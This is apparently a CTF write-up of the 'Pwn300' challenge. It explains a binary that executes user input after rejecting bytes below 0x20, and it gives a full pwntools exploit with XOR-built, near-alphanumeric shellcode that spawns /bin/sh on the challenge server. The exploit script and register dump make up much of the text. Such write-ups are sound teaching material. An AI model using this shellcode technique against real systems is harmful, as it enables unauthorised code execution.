 # Pwn300 (pwnage 300)
Author: muffinx

Description:
```
Oh this time need skills guys

task : nc 54.153.19.139 5256
```


Binary type:

```
pwn300: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=1da985f3981214bb78b782af238092d88d9a889e, not stripped
```

Binary security measurements:

```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

Code in the beginning:

```c++
int welcome()
{
  return puts("Welcome to BugsBunnyCTF!");
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rdi@1

  v3 = _bss_start;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  welcome();
  itshere(v3, 0LL);
  return 0;
}
```

There's not a lot happening.
But the "itshere" function is interesting.
Unfortunately I can't post here an aesthetic pseudcode, because call-analysis fails in this function.
But why? That's pretty clear when we take a more exact look at it:

```
.text:0000000000400791
.text:0000000000400791 loc_400791:
.text:0000000000400791 lea     rax, [rbp+buf]
.text:0000000000400798 mov     edx, 1          ; nbytes
.text:000000000040079D mov     rsi, rax        ; buf
.text:00000000004007A0 mov     edi, 0          ; fd
.text:00000000004007A5 call    _read
.text:00000000004007AA movzx   eax, [rbp+buf]
.text:00000000004007B1 cmp     al, 0Ah         ; check if it's a newline character -> execute code
.text:00000000004007B3 jz      short shellcode_finished
```

So it reads exactly one byte and checks if it's 0Ah = "\n" (newline).
If it's it'll jump to this code:

```
.text:0000000000400847
.text:0000000000400847 loc_400847:
.text:0000000000400847 lea     rax, [rbp+var_210]
.text:000000000040084E mov     [rbp+var_218], rax
.text:0000000000400855 mov     rdx, [rbp+var_218]
.text:000000000040085C mov     eax, 0
.text:0000000000400861 call    rdx
```

Debugging it, I saw that "call rdx" actually calls our input.
So we basically could submit shellcode and pwn it.
But, there's a restriction:

```
.text:00000000004007D2 movzx   eax, [rbp+buf]
.text:00000000004007D9 cmp     al, 1Fh
.text:00000000004007DB jle     short short wrong_shellcode_byte
```

So if a byte of the shellcode is less than 0x1F the program will exit.
I quickly said "let's go as close as alphanumeric as I quickly can" and I did that.

Here are some good references which will explain this topic in deepth:

https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf
https://nets.ec/Alphanumeric_shellcode
https://nets.ec/Shellcode/Alphanumeric

I used the following instructions to achieve this:

1.) push / pop
2.) xor

Looking at the x64 syscall table of linux we see that sys_execve needs the following register values:

eax = 0x3b
rdi = const char *filename
rsi = const char *const argv[]
rdx = const char *const envp[]

So we just have to set eax to 0x3b and rdi pointing to the string "/bin/sh" to get a shell.

Here's the beginning values during shellcode execution of the registers:
```
RAX: 0x0
RBX: 0x0
RCX: 0x7f4b667eaba0 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x7ffe33dceb90 ("f5PPf5_UH1B@AVAVAV^ZXPf5shfPAVXf5n/fPAVXf5bifPAVXf5//fPT_AVX4R4i")
RSI: 0x7ffe33dceb7b --> 0x71fd78000000400a
RDI: 0x0
RBP: 0x7ffe33dceda0 --> 0x7ffe33dcedb0 --> 0x0
RSP: 0x7ffe33dceb70 --> 0x7f4b66cd94c0 --> 0x7f4b6670f000 --> 0x3010102464c457f
RIP: 0x400861 (<itshere+299>:	call   rdx)
R8 : 0x3f20657265682064 ('d here ?')
R9 : 0x0
R10: 0x7ffe33dce930 --> 0x0
R11: 0x246
R12: 0x400640 (<_start>:	xor    ebp,ebp)
R13: 0x7ffe33dcee90 --> 0x1
R14: 0x0
R15: 0x0

```

To understand my shellcode look at the beginning register values and my exploit.
As you can see, rdx points to our shellcode, so we can write the "syscall" instruction by using:
```
xor ax,0x5050
xor ax,0x555f
xor [rdx+0x40],rax
```

Here's my finished exploit:
```python
#!/usr/bin/env python

from pwn import *
context.update(arch='amd64', os='linux')


# r = process('./pwn300')
r = remote('54.153.19.139', 5256)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0400861
#continue
#''')


# write syscall instruction
payload = asm('xor ax,0x5050')
payload += asm('xor ax,0x555f')
payload += asm('xor [rdx+0x40],rax')

# clear rax, rsi, rdx
payload += asm('push r14')
payload += asm('push r14')
payload += asm('push r14')
payload += asm('pop rsi')
payload += asm('pop rdx')
payload += asm('pop rax')

# change rdi to /bin/sh
payload += asm('push rax')
payload += asm('xor ax,0x6873')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x2f6e')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x6962')
payload += asm('push ax')

payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor ax,0x2f2f')
payload += asm('push ax')

payload += asm('push rsp')
payload += asm('pop rdi')

# put 0x3b in rax
payload += asm('push r14')
payload += asm('pop rax')
payload += asm('xor al,0x52')
payload += asm('xor al,0x69')


r.recvuntil('here ?\n')
r.sendline(payload)
r.interactive()
```


Boom! We got a shell! pew pew pew!
```
$ cat /home/pwn300/flag
Bugs_Bunny{ITs_asm_and_its_easy_But_need_more_skills!!}
```
